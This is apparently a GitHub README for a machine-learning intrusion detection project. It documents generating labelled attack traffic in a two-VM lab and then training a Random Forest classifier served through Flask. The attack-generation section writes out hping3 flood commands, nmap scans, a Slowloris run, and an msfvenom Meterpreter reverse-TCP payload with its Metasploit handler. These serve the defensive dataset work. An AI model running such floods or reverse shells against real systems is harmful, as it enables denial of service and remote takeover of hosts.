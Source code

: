 # ML-IDS


Steps :- 
1. Project Planning & Objective Definition

-> Identified the need for a smarter, ML-based IDS.

-> Defined project aim: Detect various attacks in real time using machine learning.

2. Environment Setup

-> Set up host machine and two virtual machines (Attacker: Kali, Victim: Ubuntu).

-> Installed tools: Wireshark, Metasploit, Nmap, Scapy, CICFlowMeter, Flask, Python, joblib.

3. Attack Type Selection

-> We have chossen multiple attacks for the dataset | we have chosen these attacks on the basic of what type of protocols it uses also which port it targets
-> run these all these commands on attack machine and used the command provided at last to capture the attack traffic after performing the attack

-> SYN Flood  -  sudo hping3 -S -p 80 --flood 192.168.100.4



   

-> UDP Flood  -  sudo hping3 --udp -p 53 --flood 192.168.100.4



  

-> ICMP Flood  -  sudo hping3 -1 --flood 192.168.100.4



  

->  Nmap Scans  - 🔸 Normal TCP Connect Scan -> nmap -sT 192.168.100.4
 
 
 
-->  🔸 Aggressive Scan with OS and Version Detection -> nmap -A -T4 192.168.100.4




-> FIN Scan
 - sudo nmap -sF 192.168.100.4


  

-> NULL Scan
- sudo nmap -sN 192.168.100.4




  

-> Xmas Scan
 - sudo nmap -sX 192.168.100.4




  

-> Protocol Obfuscation Attack (Slowloris attack performed using Python)

  intallation of slowloris
    -> git clone https://github.com/gkbrk/slowloris
        cd slowloris

  run the attack: 
  -> python3 slowloris.py 192.168.100.4






-> Reverse Shell (It is a Metasploit Payload)
   
payload creation: 

- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.5 LPORT=4444 -f elf > shell.elf
- chmod +x shell.elf

Starting Metasploit Listener: 

- msfconsole

{run this whole in one time}
- use exploit/multi/handler
  set PAYLOAD linux/x86/meterpreter/reverse_tcp
  set LHOST 192.168.100.5
  set LPORT 4444
  exploit

- Now Execute payload on victim

  ./shell.elf








-> Normal Traffic Generation

  - Basic Web Browsing
  -  File Transfer with Netcat :
        1. on victim : nc -l -p 1234 > received_file.txt
        2. on attacker : nc 192.168.100.4 1234 < sample_file.txt






-> HTTP Requests (run Together)
   - curl -X GET http://192.168.100.4/api/test
     curl -X POST -d "data=test" http://192.168.100.4/api/post






  
this command i have used in victim machine every attack time this helps me capturuing each and every network traffic capture and saves it with .pcap file

- sudo tcpdump -i eth0 -w attack_name_capture.pcap




4. Packet Capture

-> Generated traffic using tools like Metasploit, Nmap, Scapy.

-> Captured packets using Wireshark and tcpdump into .pcap files.

5. Flow Conversion

-> Converted .pcap files to flow-based .csv using CICFlowMeter.

6. Labeling and Combining Dataset

-> Labeled each flow file with its corresponding attack or "normal".

-> Combined all labeled .csv files into a single dataset (~900,000+ rows).

7. Data Preprocessing

-> Dropped irrelevant columns (e.g., IPs, timestamps).

-> Normalized features.

-> Encoded categorical features if needed.

8. Model Selection and Training

-> Tried multiple models: Random Forest, SVM, Logistic Regression.

-> Finalized Random Forest Classifier based on best accuracy.

9. Model Evaluation

-> Split data into training and test sets.

-> Evaluated using accuracy, precision, recall, F1-score.

-> Achieved ~98% accuracy.

10. Model Saving

-> Exported the trained model as best_ids_model.pkl using joblib.

11. Flask Web Application Development

-> Built a simple web interface using Flask and Bootstrap.

-> Created input form to enter flow features manually.

12. Model Integration with Flask

-> Loaded the trained model in Flask backend.

-> Created /predict route to classify input and return prediction.

13. Testing the Web App

-> Ran the Flask server.

-> Entered sample flow inputs into the web form.

-> Validated predictions (Normal/Attack Type).

14. Real-Time Simulation

-> Simulated new attacks live.

-> Captured and converted flows.

-> Tested prediction by entering new flows in the web app.

